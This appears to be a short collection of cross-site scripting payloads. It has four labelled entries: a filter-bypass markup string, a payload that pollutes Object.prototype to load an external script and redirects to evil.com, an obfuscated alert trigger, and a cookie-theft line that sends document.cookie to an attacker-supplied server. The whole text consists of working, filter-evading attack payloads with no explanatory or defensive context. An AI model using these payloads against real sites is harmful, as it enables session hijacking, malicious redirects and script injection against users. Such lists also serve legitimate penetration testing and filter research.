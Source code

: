 ```Basic bypass```

}<x>xxx<!--><!>+>+></Script+xxx></script%20x></x><x>xxx<!--><!>+>+>


```Open redirect```

}<x>xxx<!--><!>+>+></Script+xxx><Script+xxx>Object.prototype.BOOMR = 1;
Object.prototype.url = 'https://portswigger-labs.net/xss/xss.js';
location.replace('https://evil.com');</script%20x></x><x>xxx<!--><!>+>+>


```XSS trigger alert```

<x>xxx<!--><!>+>+></Script+xxx><script%20x>window/*xxx*/['al'%2b'ert'](1);//</script%20x></x><x>xxx<!--><!>+>+>

```XSS steal cookies```

window/*xxx*/['loca' + 'tion'] = 'http://<your-server>?cookie=' + document/*xxx*/['coo' + 'kie'];
